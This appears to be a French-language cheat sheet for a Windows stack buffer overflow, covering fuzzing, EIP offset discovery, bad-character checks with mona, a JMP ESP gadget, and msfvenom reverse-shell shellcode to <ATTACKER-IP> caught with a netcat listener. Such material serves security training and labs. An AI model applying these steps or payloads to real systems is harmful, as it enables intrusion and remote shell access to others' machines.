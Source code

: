 # Mona with Immunity Debugger

- Fuzzer le binaire pour trouver le nombre caractere qui fait planter le programme.

Demarrer le serveur (Running) dans immunity et crée un nouveau workspace:

```sh
!mona config -set workingfolder c:\mona\%p
```

Créer un pattern avec metasploit pour trouver l'offset d'EIP

```sh
msf-pattern_create -l 2400 
# 2400 (qui le resultat du script fuzzing.py)
```

Retrouve l'offset exacte d'EIP au moment du crash

```sh
!mona findmsp -distance 2400
# ou 
msf-pattern_offset -q EIP_ADDRESS
```

Remarrer le serveur (Running) dans immunity et recherche les badchars, on créer un tableau de badchars avec mona

```sh
!mona bytearray -b "\x00"
```

On génère une chaîne de badchars qu'on ajoute en tant que payload dans le script d'exploit ET on l'execute.

On compare les badchars avec l'offset d'ESP au moment du crash pour retourver les badchars

```sh
!mona compare -f C:\mona\<workingfolder>\bytearray.bin -a <ESP offset>
```

On génére un shellcode avec metasploit excluant les badchars

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER-IP> LPORT=4444 -b "<badchars>" -f py
```

Remarrer le serveur (Running) dans immunity et trouver un offset de jump sur ESP avec mona pour exécuter le shellcode.

```sh
!mona jmp -r esp -cpb "<badchars>"
```

On met à jour l'offset du retn dans le script d'exploit et on ajoute des NOPS (16 c'est pas mal)

On démarre un netcat en local et on exploite

```sh
rlwrap nc -nlvp 4444
```